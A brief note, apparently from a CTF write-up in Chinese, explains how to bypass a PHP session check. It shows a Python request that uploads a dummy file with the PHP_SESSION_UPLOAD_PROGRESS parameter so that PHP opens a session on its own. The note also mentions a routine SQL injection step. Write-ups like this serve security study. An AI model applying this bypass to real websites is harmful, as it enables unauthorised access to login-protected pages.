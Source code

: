 # 绕过session检测
	- `templates`文件夹中的所有文件都会检测session是否被开启。
	- 而只有index.php中会主动使用`session_start()`开启session
	- 我们可以通过上传文件，并附带POST参数`PHP_SESSION_UPLOAD_PROGRESS`来让PHP自动开启session
		- ```python
		  r = base_post(f"{url}/templates/login.php", params = {
		      "p": "login",
		      "username": "bbbbbbb",
		      "password": "b"
		  }, data = {
		      "PHP_SESSION_UPLOAD_PROGRESS": "123456789"
		  }, files = {
		      "file": ("a", "a")
		  })
		  print(r.text)
		  ```
- # sql
	- 模板题